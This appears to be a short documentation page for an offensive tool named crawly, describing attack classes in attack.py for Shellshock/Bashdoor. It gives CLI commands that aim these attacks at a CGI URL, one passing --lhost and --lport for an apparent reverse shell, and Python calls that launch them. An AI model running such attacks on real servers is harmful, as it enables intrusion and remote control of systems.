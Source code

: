 # Attack

# File

- [x] attack.py

This file contains attacking classes of crawly. Each class instancied is auto runned with the gived paremeters.

# Shellshock / Bashdoor

```
# CLI command
crawly -A http://www.test.com/cgi-bin/vuln.cgi --shellshock
crawly -A http://www.test.com/cgi-bin/vuln.cgi --bashdoor --lhost 192.168.1.2 --lport 4444
```
```python
class Shellshock:
    def __init__(self, URL)
    
>>> import crawly
>>> URL = "http://www.test.com/cgi-bin/vuln.cgi"
>>> crawly.Shellshock(URL)
>>> crawly.Bashdoor(URL)
```

